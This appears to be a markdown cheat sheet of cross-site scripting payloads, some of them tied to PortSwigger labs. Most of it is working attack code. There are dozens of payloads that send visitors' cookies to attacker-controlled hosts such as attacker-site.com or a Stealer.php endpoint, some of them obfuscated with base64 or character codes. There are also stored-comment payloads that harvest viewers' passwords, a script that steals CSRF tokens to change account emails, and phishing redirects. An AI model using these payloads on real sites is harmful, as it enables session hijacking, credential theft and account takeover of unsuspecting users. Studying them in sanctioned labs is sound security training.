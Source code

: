 ## XSS

![XSS-variants](https://github.com/user-attachments/assets/0f908703-6b48-4424-acb2-7487e776765d)

### Basics:
```
<§§>                                 --// https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
<script>alert(1)</script>
${alert(1)}                          --// document.getElementById('searchMessage').innerText = message;
<custom-tag> or <xss id=x onfocus=alert(document.cookie) tabindex=1>#x';
http://foo?&apos;-alert(1)-&apos;    --//write into the "website input" (comments)
javascript:alert(1)
"onmouseover="alert(1)
\'-alert(1)//
<svg/onload=prompt(1337);>
<><img src=1 onerror=alert(1)>       --// the website uses the JavaScript replace() function to encode angle brackets
\"-alert(1)}//                       --// the string is reflected in a JSON response called search-results
{{$on.constructor('alert(1)')()}}    --// if your random string is enclosed in an ng-app directive.
```

### Obtain cookies or tokens:

```
fetch('https://attacker-site.com/steal-cookies?cookie=' + encodeURIComponent(document.cookie));

<img src=x onerror="fetch('https://attacker-site.com/?c='+document.cookie)">

<iframe src="https://YOUR-LAB-ID.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>

<script>eval(String.fromCharCode(102,101,116,99,104,40,39,104...));</script>

<script>(()=>{fetch('https://attacker-site.com/?c='+document.cookie)})()</script>

<script src="https://attacker-site.com/malicious.js"></script> //import from another site

let img = new Image();
img.src = 'https://attacker-site.com/log?cookie=' + encodeURIComponent(document.cookie);

navigator.sendBeacon('https://attacker-site.com/steal-cookies', 'cookie=' + encodeURIComponent(document.cookie));

<iframe src="https://YOUR-LAB-ID.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>

<script>
location='https://kek.web-security-academy.net/?search=<xss id=x onfocus=alert(document.cookie) tabindex=1>#x';
</script>
```

or

```
<img src=x onerror=this.src="http://<YOUR_SERVER_IP>/?c="+document.cookie>
<img src=x onerror="location.href='http://<YOUR_SERVER_IP>/?c='+ document.cookie">
<script>new Image().src="http://<IP>/?c="+encodeURI(document.cookie);</script>
<script>new Audio().src="http://<IP>/?c="+escape(document.cookie);</script>
<script>location.href = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>
<script>location = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>
<script>document.location = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>
<script>document.location.href = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>
<script>document.write('<img src="http://<YOUR_SERVER_IP>?c='+document.cookie+'" />')</script>
<script>window.location.assign('http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie)</script>
<script>window['location']['assign']('http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie)</script>
<script>window['location']['href']('http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie)</script>
<script>document.location=["http://<YOUR_SERVER_IP>?c",document.cookie].join()</script>
<script>var i=new Image();i.src="http://<YOUR_SERVER_IP>/?c="+document.cookie</script>
<script>window.location="https://<SERVER_IP>/?c=".concat(document.cookie)</script>
<script>var xhttp=new XMLHttpRequest();xhttp.open("GET", "http://<SERVER_IP>/?c="%2Bdocument.cookie, true);xhttp.send();</script>
<script>eval(atob('ZG9jdW1lbnQud3JpdGUoIjxpbWcgc3JjPSdodHRwczovLzxTRVJWRVJfSVA+P2M9IisgZG9jdW1lbnQuY29va2llICsiJyAvPiIp'));</script>
<script>fetch('https://YOUR-SUBDOMAIN-HERE.burpcollaborator.net', {method: 'POST', mode: 'no-cors', body:document.cookie});</script>
<script>navigator.sendBeacon('https://ssrftest.com/x/AAAAA',document.cookie)</script>
```

--------------------------------------------
#### post this in the comment section - it will send all cookies for all viewers this comment:
```
<script>
fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
### XSS redirect to another site options:
```
--------------------------------------------
#### post this payload in the blog comment section - 
script will make anyone who views the comment issue a POST request containing their username and password to your subdomain of the public Collaborator server:
```
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```
--------------------------------------------
#### Submit the following payload in the comment section
This will make anyone who views the comment issue a POST request to change their email address to test@test.com:
```
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```
--------------------------------------------
### XSS to redirect or view another site on the target site:
```
<script>window.location.href = "https://phishing-site.com";</script>

<script>window.location.replace("https://phishing-site.com");</script>

<script>window.location.assign("https://phishing-site.com");</script>

<meta http-equiv="refresh" content="0;url=https://phishing-site.com">

<body onload="window.location.href='https://phishing-site.com'">

<a href="#" onclick="window.location.href='https://phishing-site.com'">Click here</a>

<iframe src="https://phishing-site.com" style="display:none;"></iframe>
```
